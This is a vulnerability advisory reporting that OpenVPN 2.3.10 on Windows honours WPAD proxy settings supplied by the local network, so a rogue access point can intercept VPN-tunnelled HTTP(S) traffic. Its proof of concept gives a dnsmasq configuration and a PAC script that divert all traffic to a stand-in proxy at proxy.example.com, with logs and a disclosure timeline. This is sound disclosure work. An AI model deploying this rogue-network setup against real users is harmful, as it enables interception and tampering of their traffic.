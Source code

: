 ```yaml
---
layout: post
title: OpenVPN - HTTP(S) Tunnelled Traffic Interception
category: bugreports
---
```


Windows OpenVPN users connecting to a VPN network from an untrusted/malicious network are at risk of having all VPN tunnelled HTTP(S) traffic intercepted by a 3rd party. OpenVPN on Windows honours the Web Proxy Auto-Discovery (WPAD) settings, configured by the network the client is connecting from, on VPN connections.
<!--more-->

<pre class="bugreport">
Description:        OpenVPN HTTP(S) Tunnelled Traffic Interception
Versions Affected:  OpenVPN 2.3.10 for Windows
Category:           Traffic Interception
Reporter:           Alex Chapman and Paul Stone of Context Information Security

Summary:
--------
Windows OpenVPN users connecting to a VPN network from an untrusted/malicious network are at risk of having all VPN tunnelled HTTP(S) traffic intercepted by a 3rd party. OpenVPN on Windows honours the Web Proxy Auto-Discovery (WPAD) settings, configured by the network the client is connecting from, on VPN connections. WPAD settings configure system-wide HTTP proxies via Proxy Auto-Config (PAC) scripts. This allows a malicious network operator, such as a rogue access point, to proxy all VPN-tunnelled HTTP(S) requests for OpenVPN clients connecting from their network.

Analysis:
---------
The PAC configured proxy can log all traffic, defeating the confidentiality provided by OpenVPN, or modify traffic in transit to affect the integrity of the VPN traffic.

This issue has been confirmed on Windows 10 and Windows 7 with OpenVPN version 2.3.10-I603-x86_64.

WPAD/PAC is enabled by default on all modern desktop versions of Windows. It should be noted that disabling the default "Automatically detect settings" option in the Windows "Local Area Network (LAN) Settings" configuration partially mitigates this issue. However, clients with specifically configured PAC files (using the "Use automatic configuration script" option in the Windows "Local Area Network (LAN) Settings" configuration), may still be at risk.

Proof of Concept:
-----------------
Provided here is a Proof of Concept setup which will act as a network gateway, providing a PAC script via DHCP. The PAC script sets the default system proxy to an HTTP proxy on the internet, in this case a fictitious proxy at proxy.example.com. When a Windows system attaches to this network, WPAD/PAC will configure the system proxy. When the system connects to an OpenVPN end point we can see that the proxy setting are still honoured.

The following dnsmasq configuration can be used to provide a PAC file to Windows hosts via WPAD DHCP:

    interface=eth0
    dhcp-authoritative
    dhcp-range=192.168.100.100,192.168.100.199,10m
    dhcp-option=3,192.168.100.1
    dhcp-option=6,192.168.100.1
    dhcp-option=252,http://proxy.example.com:80/proxy.pac

The dhcp-option=252 option specifies the URL from which Windows hosts will download the PAC script.

The following PAC script can be can be provided to proxy all HTTP(S) traffic through a Web Proxy hosted at proxy.example.com:3128:

  function FindProxyForURL(url, host){
    return "PROXY proxy.example.com:3128";
  }

Windows hosts which connect to a network as configured above will, by default, push all HTTP(S) traffic through the HTTP proxy at proxy.example.com:3128. After an OpenVPN connection is established the WPAD/PAC settings remain in use, forwarding all VPN tunnelled HTTP(S) traffic out of the OpenVPN endpoint through the configured HTTP proxy.

Below are logs which show connections HTTP connections from the above configured network to the WPAD/PAC configured proxy occurring both pre and post VPN connection.

Nginx access logs of Windows and Google Chrome fetching PAC script before connecting to the VPN:

    88.98.79.12 - - [08/Apr/2016:09:33:45 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "WinHttp-Autoproxy-Service/5.1"
    88.98.79.12 - - [08/Apr/2016:09:34:14 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"
    88.98.79.12 - - [08/Apr/2016:09:34:15 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"

Squid-cache access logs of proxy connections for www.contextis.com before connecting to the VPN:

    156 88.98.79.12 TCP_MISS/304 475 GET http://www.contextis.com/ - HIER_DIRECT/93.184.216.34 -

Nginx access logs of Windows and Google Chrome fetching PAC script after connecting to the VPN:

    46.28.53.168 - - [08/Apr/2016:09:35:55 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "WinHttp-Autoproxy-Service/5.1"
    46.28.53.168 - - [08/Apr/2016:09:36:00 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"
    46.28.53.168 - - [08/Apr/2016:09:36:01 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"

Squid-cache access logs of proxy connections for www.contextis.com after connecting to the VPN:

    151 46.28.53.168 TCP_MISS/304 453 GET http://www.contextis.com/ - HIER_DIRECT/93.184.216.34 -

NOTE: The IP address on the "after" logs have changed to that of the VPN end point.

Timeline
--------
20160414 - Email to security@openvpn.net
20160418 - Initial response and request for more information
20160516 - Issue confirmed
20160902 - Confirmed no fix will be implemented
</pre>
